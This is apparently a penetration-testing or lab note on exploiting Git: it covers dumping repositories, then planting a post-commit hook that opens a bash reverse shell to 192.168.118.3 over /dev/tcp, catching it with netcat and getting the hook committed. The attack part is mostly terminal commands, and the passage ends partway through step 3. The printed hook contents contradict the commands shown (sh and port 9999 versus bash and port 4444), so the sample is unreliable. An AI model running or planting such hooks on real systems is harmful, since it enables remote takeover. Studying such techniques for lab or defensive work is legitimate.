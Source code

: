 
# Guide

1. If a Git user is found and Git is installed, try `git log -p`
2. Use [GitDumper](https://github.com/internetwache/GitTools/tree/master/Dumper) to extract a repository
	1. View the largest file first
	2. Search commits messages
# Exploiting Post-Commit

1. Create a post-commit file with a bash reverse shell

```
beth@GitRoot:~$ cd ~
beth@GitRoot:~$ mkdir -p .git/hooks && cd .git/hooks
beth@GitRoot:~/.git/hooks$ echo '#!/bin/bash' > post-commit
beth@GitRoot:~/.git/hooks$ echo '/usr/bin/bash -i >& /dev/tcp/192.168.118.3/4444 0>&1' >> post-commit
beth@GitRoot:~/.git/hooks$ cat post-commit
#!/bin/sh
/usr/bin/sh -i >& /dev/tcp/192.168.118.3/9999 0>&1
beth@GitRoot:~/.git/hooks$ chmod 777 post-commit
beth@GitRoot:~/.git/hooks$
```
2. Start a netcat listener on port 4444. 
3. Compress the .git/ contents into a zip file as requested and copy it to the directory which is being uncompressed and committed:
